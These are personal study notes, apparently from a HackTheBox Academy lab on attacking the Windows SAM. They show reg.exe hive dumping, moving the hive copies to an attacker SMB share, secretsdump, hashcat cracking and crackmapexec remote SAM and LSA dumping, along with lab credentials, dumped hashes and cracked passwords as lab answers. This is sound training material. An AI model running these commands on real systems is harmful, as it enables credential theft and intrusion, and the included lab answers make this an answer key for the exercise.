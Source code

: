 ### Copying SAM Registry Hives

| Registry Hive   | Description                                                                                                                                                |
| --------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `hklm\sam`      | Contains the hashes associated with local account passwords. We will need the hashes so we can crack them and get the user account passwords in cleartext. |
| `hklm\system`   | Contains the system bootkey, which is used to encrypt the SAM database. We will need the bootkey to decrypt the SAM database.                              |
| `hklm\security` | Contains cached credentials for domain accounts. We may benefit from having this on a domain-joined Windows target.                                        |

#### Copy Registry Hives via reg.exe

```powershell
C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save

The operation completed successfully.

C:\WINDOWS\system32> reg.exe save hklm\system C:\system.save

The operation completed successfully.

C:\WINDOWS\system32> reg.exe save hklm\security C:\security.save
```

>[! Note ] 
> Use Impacket's smbserver.py to move the hive copies to a share created on the attack host


###### Syntax for smbserver.py
```python
impacket-smbserver -smb2support Name_of_Share /path/to/share/on/attack/host
```

When share is running on attack host, use the `move` command on Windows to move the hive copies to the share
```cmd-session
C:\> move sam.save \\10.10.15.16\CompData
1 file(s) moved.

C:\> move security.save \\10.10.15.16\CompData
1 file(s) moved.

C:\> move system.save \\10.10.15.16\CompData
1 file(s) moved.
```

### Dumping Hashes with Impackets secretsdump.py

Ensure to specify each hive file you've retrieved
```python
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

>[! Warning] secretsdump cannot dump those hashes without the boot key because that boot key is used to encrypt & decrypt the SAM database

### Cracking Hashes via Hashcat

The `-m` flag cracks NT hashes (NTLM based hashes). Verify at [hashcat's wiki](https://hashcat.net/wiki/doku.php?id=example_hashes)
```go
sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
```

### Remote Dumping and LSA Secrets Considerations

You can also extract LSA Secrets over the network i.e., from a running service, scheduled task or application that uses LSA secrets to store passwords

**Dumping LSA Secrets Remotely**
```go
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa
```

**Dumping SAM Remotely**
```go
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam
```

## Questions

IP
```go
10.129.3.177
```

User
```
Bob
```

Password
```
HTB_@cademy_stdnt!
```

SSH
```go
ssh Bob@STMIP
```


Question 1: Apply the concepts taught in this section to obtain the password to the ITbackdoor user account on the target. Submit the clear-text password as the answer.

```go
xfreerdp /v:10.129.3.177 /u:Bob /p:HTB_@cademy_stdnt! /cert:ignore
```

First, dump the SAM database
```go
crackmapexec smb 10.129.3.177 --local-auth -u bob -p HTB_@cademy_stdnt! --sam
```

Found 8 hashes!

| Username/Account   | Hash                                                                      |
| ------------------ | ------------------------------------------------------------------------- |
| Administrator      | 500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::  |
| Guest              | 501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::  |
| DefaultAccount     | 503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::  |
| WDAGUtilityAccount | 04:aad3b435b51404eeaad3b435b51404ee:72639bbb94990305b5a015220f8de34e:::   |
| bob                | 1001:aad3b435b51404eeaad3b435b51404ee:3c0e5d303ec84884ad5c3b7876a06ea6::: |
| jason              | 1002:aad3b435b51404eeaad3b435b51404ee:a3ecf31e65208382e23b3420a34208fc::: |
| ITbackdoor         | 1003:aad3b435b51404eeaad3b435b51404ee:c02478537b9727d391bc80011c2e2321::: |
| frontdesk          | 1004:aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71::: |

Put the hashes in a text file and crack them with Hashcat

```go
sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
```

Cracked passwords as listed:
```go
a3ecf31e65208382e23b3420a34208fc:mommy1                   
c02478537b9727d391bc80011c2e2321:matrix                   
31d6cfe0d16ae931b73c59d7e0c089c0:                         
58a478135a93ac3bf058a5ea0e8fdb71:Password123 
```

Question 3: Dump the LSA secrets on the target and discover the credentials stored. Submit the username and password as the answer. (Format: username:password, Case-Sensitive)

```go
crackmapexec smb 10.129.3.177 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa
```

![[attacking_sam_q3.png]]
